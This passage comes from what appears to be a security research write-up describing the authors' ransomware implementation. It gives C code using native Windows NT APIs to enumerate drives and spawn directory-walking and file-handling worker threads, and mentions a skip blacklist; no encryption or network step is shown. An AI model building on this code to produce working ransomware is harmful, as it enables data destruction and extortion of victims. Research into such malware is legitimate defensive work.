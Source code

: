 The less interesting, for the point of our discussion and research, the ransomware implementation is rather simple. We maintain two queues, one to perform an iterative depth first search of the file system, and the second to enqueue files to handle. We begin by identifying the drives present on the system (by iterating from C:\ through to Z:\) and attempting to open a handle to it to determine whether it exists.

```c
    for (WCHAR letter = L'C'; letter <= L'Z'; letter++) {
        driveRoot.Length = 0;
        driveRoot.MaximumLength = sizeof(driveRootBuf);
        driveRoot.Buffer = driveRootBuf;

        RtlAppendUnicodeToString(&driveRoot, L"\\??\\");
        WCHAR letterStr[3] = { letter, L':', 0 };
        RtlAppendUnicodeToString(&driveRoot, letterStr);
        RtlAppendUnicodeToString(&driveRoot, L"\\");

        InitializeObjectAttributes(&oa, &driveRoot, OBJ_CASE_INSENSITIVE, NULL, NULL);
        HANDLE hFile;
        NTSTATUS openStatus = NtOpenFile(
            &hFile,
            FILE_LIST_DIRECTORY | SYNCHRONIZE,
            &oa,
            &iosb,
            FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
            FILE_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT
        );
```

If so, we enqueue it our first queue responsible for a depth first search of the file system. We then create X threads, where X is the count of processors, for both our DFS and worker threads.

```c
HANDLE* dirThreads = (HANDLE*)RtlAllocateHeap(g_Heap, 0, sizeof(HANDLE) * g_DirThreadCount);
for (ULONG i = 0; i < g_DirThreadCount; i++) {
    HANDLE hThread;
    RtlCreateUserThread(NtCurrentProcess(), NULL, FALSE, 0, 0, 0, DirectoryWorkerThread, NULL, &hThread, NULL);
    dirThreads[i] = hThread;
}

HANDLE* fileThreads = (HANDLE*)RtlAllocateHeap(g_Heap, 0, sizeof(HANDLE) * g_FileThreadCount);
for (ULONG i = 0; i < g_FileThreadCount; i++) {
    HANDLE hThread;
    RtlCreateUserThread(NtCurrentProcess(), NULL, FALSE, 0, 0, 0, FileConsumerThread, NULL, &hThread, NULL);
    fileThreads[i] = hThread;
}
```

Our directory enumeration worker threads dequeue an element, and enumerate the files within the directory, queuing either a directory to the directory queue (fufilling our iterative DFS) or to the worker queue. We additionally check whether it's a file in our black list and that we'd like to skip.
